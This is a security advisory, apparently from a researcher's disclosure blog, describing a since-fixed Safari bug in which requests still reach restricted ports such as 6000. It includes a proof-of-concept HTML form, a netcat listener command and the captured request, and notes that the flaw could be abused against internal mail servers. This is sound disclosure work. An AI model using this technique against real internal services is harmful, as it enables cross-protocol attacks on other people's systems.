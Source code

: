 ```yaml
---
layout: post
slug: "0007"
vendor: "Apple"
status: "fixed"
reported: "2021-03-13"
title: "Bypassing restricted port protection in WebKit"
---
```


**Summary:**

Safari [restricted port blocking](https://fetch.spec.whatwg.org/#port-blocking) is not enforced properly. When requesting a page on a restricted port, only rendering is blocked, but the initial request gets sent to the restricted port.

**Steps to reproduce:**

1. Create an HTML file with this POC:

```
<form action="http://127.0.0.1:6000" method="POST" enctype="multipart/form-data">
    <label for="data">post data:</label>
    <input type="text" id="data" name="data">
</form>
```

{:start="2"}
2. Listen on port 6000 (a restricted port) with netcat: `$ nc -l 127.0.0.1 6000`
3. Open the HTML file created in `Step 1.` in Safari
4. Enter any value into the `post data:` form field, and press enter
5. See that Safari shows an error with the message:

```
Safari can't open the page "http://127.0.0.1:6000/". The error is: "Not allowed to use
restricted network port" (WebKitErrorDomain:103)
```

{:start="6"}
6. In the terminal running netcat, see that the request still got sent:

```
$ nc -l 127.0.0.1 6000
POST / HTTP/1.1
Host: 127.0.0.1:6000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFFmUrfH05DvsT29s
Origin: null
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15
Content-Length: 153
Accept-Language: en-gb
Accept-Encoding: gzip, deflate

------WebKitFormBoundaryFFmUrfH05DvsT29s
Content-Disposition: form-data; name="data"

123_test_post_data
------WebKitFormBoundaryFFmUrfH05DvsT29s--
```

**Impact:**

This could be used to bypass the restricted port protection, and send malicious commands to non-HTTP services running on these sensitive ports, like mail servers.
This blog post demonstrates the impact, exploiting internal SMTP servers: [https://cxsecurity.com/issue/WLB-2010030240](https://cxsecurity.com/issue/WLB-2010030240)

**[Disclosure Warning]:**

**This issue is subject to a 90 day disclosure deadline.** On `2021-06-11` this issue will be publicly disclosed. If you would like to redact additional information or if for some reason the issue can't be fixed until the deadline, let me know.

*This issue was fixed in [iOS/iPadOS 14.6](https://support.apple.com/en-us/HT212528), [macOS Big Sur 11.4](https://support.apple.com/en-us/HT212529), [Safari 14.1.1](https://support.apple.com/en-us/HT212534), [watchOS 7.5](https://support.apple.com/en-us/HT212533) and in [tvOS 14.6](https://support.apple.com/en-us/HT212532).*